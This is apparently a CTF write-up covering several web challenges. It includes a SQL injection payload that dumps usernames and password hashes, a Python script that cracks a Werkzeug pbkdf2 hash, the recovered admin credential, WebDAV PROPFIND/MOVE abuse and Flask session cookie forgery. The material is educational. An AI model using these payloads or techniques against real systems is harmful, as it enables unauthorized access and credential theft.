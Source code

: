 ### All about robots
On the giving web page, taking chall name as hint, if we go to *robots.txt end point, we see a disallowed html page. Going to that endpoint, we find the flag

### IDoor
Going to the webpage, we see the customer id is 11. Further when we see the url, the endpoint looks like an encoded string. SHA256 decoding the string gives us the value 11 that is equal to the
custoer id. With a bit of trial and error, by sha256 encoding different integers, we finally get a hit on 0, and the flag is obtained

### Hacker web store
We have been given a products page, a creation page and a passwords list. Wehn we try sql inputs in the creation page, we see the app is vulnerable to sql injection and the error message showed the structure of the insertion command. Using that we can craft a payload like:
```
1') , ('Product2', (SELECT name FROM users LIMIT 1 OFFSET 0), 'Description3
```
Here lmit means only 1 row printed, and choosing different offsets to get all the users we get 3 users and their password hashes:
```
Joram : pbkdf2:sha256:600000$m28HtZYwJYMjkgJ5$2d481c9f3fe597590e4c4192f762288bf317e834030ae1e069059015fb336c34
James : pbkdf2:sha256:600000$GnEu1p62RUvMeuzN$262ba711033eb05835efc5a8de02f414e180b5ce0a426659d9b6f9f33bc5ec2b
website_admin_account : pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57
```
We need to login using the admin account by cracking its password hash<br>
From a writeup, got this script:
```
from werkzeug.security import _hash_internal
import sys

def generate_password_hash(password, method="pbkdf2:sha256:600000"):
    salt = "MSok34zBufo9d1tc"
    h, actual_method = _hash_internal(method, salt, password)
    return "%s$%s$%s" % (actual_method, salt, h)

f = open("pass.txt", "r")
o = open("crack-admin.txt", "w")

for x in f:
   hash = generate_password_hash(x.strip(),method='pbkdf2:sha256:600000')
   a = f"{x.strip()} {hash}"
   o.write(a)
   print(x.strip())
   if hash == "pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57":
       print(f"{x.strip()} found password")
       sys.exit()
o.close()
```
```
ntadmin1234 found password
```
We can login now with website_admin_account:ntadmin1234 and get our flag

### The Davinci code
Since the challenge mentions dav, if we look up , we find methods like propfind to give us files and directories <br>
Using propfind on the site, gives us a /the_secret_dav_inci_code endpoint<br>
using it again we get /flag.txt endpoint but we cant use it directly<br>
We need to move the file to /static using move method and then we get the flag<br>

### Thomas deverson
Looking at the source code of the page, we find a /backup end point <br>
Going to the endpoint point, we see a flask code segment<br>
![image](https://github.com/poorvi1910/Web/assets/146640913/e949eff9-f3d3-40a7-be10-b1226c52f2bc)<br>
But using all three names in usename field is blcoked. That means we need to forge cookies<br>
The scret key according to flask code is ```f'THE_REYNOLDS_PAMPHLET-{ datetime.now().strftime("%Y%m%d%H%M") }'```<br>
If we try computing the date from the uptime given in the Status page:
 ```
#jumping ahead, now() doesn't work, but utcnow() does
sign({"name":"Burr"}, f'THE_REYNOLDS_PAMPHLET-{(datetime.utcnow() - timedelta(days=82816, hours=16, minutes=51)).strftime("%Y%m%d%H%M")}')
# 'eyJuYW1lIjoiQnVyciJ9.Zk_0mg.WlX1PYbdc8xh-svaFZj7aKa-wFs'
```
We get the flag
```
 <div class="col-xl-6 ml-auto jumbo-vertical-center">
        <div>
            <h1>Welcome fellow Democratic Republican!</h1>
            <p>Don't tell Hamilton, but we totally know what he did.</p>
            <strong>flag{f69f2c087b291b9da9c9fe9219ee130f}</strong>
        </div>
      </div>
```

### Helpful desk
didnt understand completely yet
